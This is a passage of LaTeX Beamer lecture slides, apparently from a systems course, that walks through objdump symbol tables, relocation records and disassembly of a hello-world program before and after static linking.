\begin{Verbatim}[commandchars=\\\{\},fontsize=\fontsize{9}{10}\selectfont]
SYMBOL TABLE:
0000000000000000 l    d  .text  0000000000000000 .text
0000000000000000 l    d  .data  0000000000000000 .data
0000000000000000 l    d  .bss   0000000000000000 .bss
0000000000000000 l       .data  0000000000000000 string
0000000000000000 \myemphSix{g}       \myemphSeven{.text  0000000000000000} main
0000000000000000         \myemphTwo{*UND*  0000000000000000 puts}

RELOCATION RECORDS FOR [.text]:
OFFSET           TYPE              VALUE 
0000000000000003 \myemphFive{R_X86_64_32S}      \myemphFour{.data}
0000000000000008 \myemphFive{R_X86_64_PC32}     \myemphThree{puts}-0x0000000000000004
\end{Verbatim}
\begin{tikzpicture}[overlay,remember picture]
    \tikzset{overBox/.style={at=(boxLoc),anchor=center,align=center,draw,rectangle,fill=white}}
    \coordinate (boxLoc) at ([yshift=-2.5cm]current page.center);
    \begin{visibleenv}<2>
        \node[overBox] {
            undefined symbol: look for {\tt puts} elsewhere
        };
    \end{visibleenv}
    \begin{visibleenv}<3>
        \node[overBox] {
           insert address of puts, format for {\tt call}
        };
    \end{visibleenv}
    \begin{visibleenv}<4>
        \node[overBox] {
           insert address of string, format for {\tt movq}
        };
    \end{visibleenv}
    \begin{visibleenv}<5>
        \node[overBox] {
            different ways to represent address \\
            {\tt 32S} --- signed 32-bit value \\
            {\tt PC32} --- 32-bit difference from current address
        };
    \end{visibleenv}
    \begin{visibleenv}<6>
        \node[overBox] {
            {\tt g}: global --- used by other files \\
            {\tt l}: local 
        };
    \end{visibleenv}
    \begin{visibleenv}<7>
        \node[overBox] {
            {\tt .text} segment beginning plus 0 bytes
        };
    \end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile]{hello.o / statically linked, no PIE}
hello.o:
\begin{Verbatim}[commandchars=\\\{\},fontsize=\fontsize{9}{10}\selectfont]
Disassembly of section .text:

0000000000000000 <main>:
   0:   48 c7 c7 00 00 00 00    mov    $0x0,%rdi
                        3: R_X86_64_32S .data
   7:   e8 00 00 00 00          call   c <main+0xc>
                        8: R_X86_64_PLT32       puts-0x4
   c:   c3                      ret    
\end{Verbatim}
\hrule
hello.exe (gcc -static -no-pie):
\begin{Verbatim}[commandchars=\\\{\},fontsize=\fontsize{9}{10}\selectfont]
Disassembly of section .text:
...
 00000000004016c3 <main>:
   4016c3:▶      48 c7 c7 b5 16 40 00 ▶  mov    $0x4016b5,%rdi
   4016ca:▶      e8 e1 a9 00 00       ▶  call   40c0b0 <_IO_puts>
   4016cf:▶      c3                   ▶  ret    
...
\end{Verbatim}
\end{frame}






\end{document}
